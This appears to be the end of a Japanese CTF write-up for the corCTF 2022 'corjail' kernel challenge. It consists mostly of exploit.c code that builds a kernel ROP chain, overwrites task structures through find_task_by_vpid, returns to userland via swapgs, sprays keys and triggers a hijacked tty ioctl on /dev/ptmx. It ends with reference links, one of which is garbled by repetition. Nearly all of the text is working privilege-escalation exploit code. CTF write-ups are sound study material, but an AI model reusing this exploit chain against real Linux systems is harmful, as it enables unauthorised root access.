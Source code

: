 ```exploit.c
    *rop++ = KADDR(0xffffffff810e4fc0); // find_task_by_vpid

    *rop++ = KADDR(0xffffffff8117668f); // pop rdx
    *rop++ = 0x6E0;
    *rop++ = KADDR(0xffffffff81029e7d); // add rax, rdx
    *rop++ = KADDR(0xffffffff817e1d6d); // mov qword [rax], rbx ; pop rbx ; ret ; (1 found)
    *rop++ = 0; // trash


    *rop++ = KADDR(0xffffffff81c00ef0 + 0x16); // swapgs_restore_regs_and_return_to_usermode + 0x16
                                               // mov rdi,rsp; mov rsp,QWORD PTR gs:0x6004; push QWORD PTR [rdi+0x30]; ...
    *rop++ = 0;
    *rop++ = 0;
    *rop++ = (ulong)NIRUGIRI;
    *rop++ = user_cs;
    *rop++ = user_rflags;
    *rop++ = (ulong)krop_stack + KROP_USTACK_SIZE / 2;
    *rop++ = user_ss;

    printf("[+] size: 0x%lx\n", (ulong)rop - (ulong)key_payload);
    assert((ulong)rop - (ulong)key_payload <= NUM_3RD_KEY_SIZE);
    assert(512 < NUM_3RD_KEY_SIZE + 0x10 && NUM_3RD_KEY_SIZE + 0x10 < 1024);
    for (int ix = 0; ix != NUM_3RD_KEY_SPRAY; ++ix) alloc_key(key_payload, NUM_3RD_KEY_SIZE + 0x10, NULL);
  }

  // Invoke tty_struct.ops.ioctl
  puts("[+] ioctl-ing to /dev/ptmx");
  for (int ix = 0; ix != NUM_TTY_SPRAY; ++ix) {
    ioctl(tty_fd[ix], 0x1234567890, 0xABCDE0000);
  }

  // end of life (unreachable)
  puts("[ ] END of life...");
  //sleep(999999);
}
```

## 参考

- [Author's writeup](https://syst3mfailure.io/corjailhttps://syst3mfailure.io/corjail)
- [corCTF2022 archive](https://github.com/Crusaders-of-Rust/corCTF-2022-public-challenge-archive/tree/master/pwn/corjail/task/build)
